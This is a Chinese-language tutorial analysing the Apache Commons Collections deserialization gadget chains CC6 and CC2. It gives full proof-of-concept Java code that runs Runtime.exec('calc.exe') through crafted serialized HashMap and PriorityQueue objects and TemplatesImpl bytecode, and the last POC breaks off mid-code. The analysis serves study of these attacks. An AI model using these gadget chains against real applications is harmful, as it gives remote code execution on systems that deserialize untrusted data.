CommonsCollections1 在 Java 8u71以后，因为 sun.reflect.annotation.AnnotationInvocationHandler#readObject 的逻辑变化了导致不能使用，CommonsCollections6 可以解决⾼版本Java的利⽤问题。

所以 CommonsCollections1 的后半段还是可以利用的：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
    }
}
```

所以需要换一个地方触发 LazyMap#get 方法，这里使用的是 org.apache.commons.collections.keyvalue.TiedMapEntry ，



后面的 hashCode 方法触发了：



此时POC为：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        tiedmap.hashCode();
    }
}
```

所以需要找一个触发 TiedMapEntry#hashCode 的地方。这里使用的是 HashMap#hash 方法，



而 HashMap#readObject 方法也调用到了 HashMap#hash 方法：



所以我们只需要让 key 等于 TiedMapEntry 对象。

POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

但是没有弹出计算器。进行调试，我发现它在经过 HashMap#hash 方法后跳转到 String#hashCode 方法去了，



同时发现 HashMap#hash 方法的 key 参数不为 TiedMapEntry  对象，这也导致后面无法命令执行

按道理是应该直接跳转到 HashMap#hashCode 方法，问题就是因为`expMap.put(tme, "valuevalue");`

因为在 HashMap 的 put ⽅法中，也调用到了 hash(key) ，



这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，而前面并没有将恶意的 transformers 替换进 transformerChain 类中，所以没有触发命令执行。

这里只需要将 keykey 这个 Key，再从 outerMap 中移除即可，最后POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法
        outerMap.remove("keykey");

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

## CC2

### 环境搭建

- JDK 1.7
- Commons Collections 4.0
- javassit

maven：

```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.25.0-GA</version>
</dependency>
```

### 利用链分析

这里需要 javassist 的知识：

导包：

```
<dependency>
  <groupId>org.javassist</groupId>
  <artifactId>javassist</artifactId>
  <version>3.25.0-GA</version>
</dependency>
```

.java文件需要编译成.class文件后才能正常运行，而javassit是用于对生成的class文件进行修改，或以完全手动的方式，生成一个class文件。

Demo:

```java
import javassist.*;

public class Lnh {
    public static void createPseson() throws Exception {
        ClassPool pool = ClassPool.getDefault();

        // 1. 创建一个空类
        CtClass cc = pool.makeClass("Person");

        // 2. 新增一个字段 private String name;
        // 字段名为name
        CtField param = new CtField(pool.get("java.lang.String"), "name", cc);
        // 访问级别是 private
        param.setModifiers(Modifier.PRIVATE);
        // 初始值是 "xiaoming"
        cc.addField(param, CtField.Initializer.constant("xiaoming"));

        // 3. 生成 getter、setter 方法
        cc.addMethod(CtNewMethod.setter("setName", param));
        cc.addMethod(CtNewMethod.getter("getName", param));

        // 4. 添加无参的构造函数
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);
        cons.setBody("{name = \"xiaohong\";}");
        cc.addConstructor(cons);

        // 5. 添加有参的构造函数
        cons = new CtConstructor(new CtClass[]{pool.get("java.lang.String")}, cc);
        // $0=this / $1,$2,$3... 代表方法参数
        cons.setBody("{$0.name = $1;}");
        cc.addConstructor(cons);

        // 6. 创建一个名为printName方法，无参数，无返回值，输出name值
        CtMethod ctMethod = new CtMethod(CtClass.voidType, "printName", new CtClass[]{}, cc);
        ctMethod.setModifiers(Modifier.PUBLIC);
        ctMethod.setBody("{System.out.println(name);}");
        cc.addMethod(ctMethod);

        //这里会将这个创建的类对象编译为.class文件
        cc.writeFile("./");
    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

上面的代码生成的 class 文件是这样的：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.rickiyang.learn.javassist;

public class Person {
    private String name = "xiaoming";

    public void setName(String var1) {
        this.name = var1;
    }

    public String getName() {
        return this.name;
    }

    public Person() {
        this.name = "xiaohong";
    }

    public Person(String var1) {
        this.name = var1;
    }

    public void printName() {
        System.out.println(this.name);
    }
}
```

#### 利用链1

命令执行还是和cc1一样，这里从正向分析：

入口，PriorityQueue#readObject：



这里的 queue[i] 的值是由 readObject 得到的，也就是说在 writeObject 处写入了对应的内容：



也就是说我们可以通过反射来设置 queue[i] 的值来达到控制 queue[i] 内容的目的。

跟进 heapify 方法：



siftDown：



这里的 x 是可控的，跟入第一个 siftDownUsingComparator：



这里的 x 可控，cc2 使用了 TransformingComparator#compare 来触发后续链，让 comparator 等于 TransformingComparato 类即可，这里可以通过 PriorityQueue 的其中一个构造方法赋值：

```java
public PriorityQueue(Comparator<? super E> comparator) {
        this(DEFAULT_INITIAL_CAPACITY, comparator);
    }
```

在看 TransformingComparator#compare：



这里对 this.transformer 调用了 transform 方法，如果这个 this.transformer 可控的话，就可以触发 cc1 中的后半段链。而且没有被 static或 transient 修饰，所以是我们可控的。

POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc.exe"})});

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

一些构造POC的问题：

1. 为什么要 add 两个值进去？

   

   即让 size>>>1 之后减一之后要大于等于 0 ，既让 size>1，

2. 为什么要在 add 之后才通过反射修改 comparator 的值?

   

   跟进 offer 方法：

   

   这里调用了 siftUp：

   

   这里需要保证 comparator 的值为 null，才能够正常的添加元素进 queue，如果我们在 add 之前使 comparator 为我们构造好的TransformingComparator，就会报这么一个错误：



#### 利用链2

yso 在 cc2 中用到的是 TemplatesImpl 这个类，这里需要用到 javassist 的知识，例如：

```java
import javassist.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

public class javassist_test {
    public static void createPseson() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("Cat");
        String cmd = "System.out.println(\"evil code\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        // 写入.class 文件
        cc.writeFile();
    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

生成的 class 文件内容是这样的：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

public class EvilCat764977622712900 {
    static {
        System.out.println("evil code");
    }

    public EvilCat764977622712900() {
    }
}
```

这里的 static 语句块会在创建类实例的时候执行。

跟进 TemplatesImpl  类：



在 newTransformer 中调用了 getTransletInstance 方法：



首先先跟进 defineTransletClasses 方法：



这里通过 loader.defineClass 的方式将 bytecodes 还原为 Class，接着在外面又调用了`_class[_transletIndex].newInstance`方法实例化还原的Class。此时 static 语句块成功执行。

也就是说，我们可以通过 TemplatesImpl#newTransformer 方法来执行恶意类的 static 语句块。

POC如下：

```java
import javassist.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.ClassLoader;
import java.lang.reflect.Field;

public class javassit_test {
    public static void createPseson() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();

    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

但是这里为什么要设置恶意类的父类为 AbstractTranslet 呢？

因为在 defineTransletClasses 这个方法中存在一个判断：



我们需要令`_transletIndex`为 i ，此时的 i 为0，默认状态下`_transletIndex`的值为 -1 ，而如果`_transletIndex`的值小于0，就会抛出异常：



这里我们也不能通过反射的方式来设置`_transletIndex`的值，因为还是会进入到`_auxClasses`方法中，此方法会报出错误，我们依旧无法正常的序列化。



此时已经可以成功执行命令了，接下来就是需要找到一个点调用了 newTransformer 这个方法。

利用链 1 可以执行到 transform 方法了，那么我们可以通过 InvokerTransformer#transform 的反射来调 TemplatesImpl#newtransformer，达到命令执行的目的。

完整POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

